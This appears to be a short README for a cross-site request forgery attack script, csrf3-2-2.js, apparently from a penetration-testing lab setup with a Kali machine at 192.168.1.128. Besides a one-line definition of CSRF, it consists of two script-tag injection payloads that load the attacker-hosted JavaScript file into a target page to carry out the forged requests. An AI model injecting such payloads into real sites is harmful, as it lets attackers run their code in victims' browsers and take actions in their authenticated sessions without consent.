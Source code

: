 # CSRF
This vulnerability hits the applications set all their authentication and session management mechanism purely on the top of cookies.



# csrf3-2-2.js Usage

Kali IP: 192.168.1.128
You need to use below payload to trigger CSRF.
<script src="http://192.168.1.128/csrf3-2-2.js"></script>
If it doesn't work, use this one.
<script src=http://192.168.1.128/csrf3-2-2.js></script>

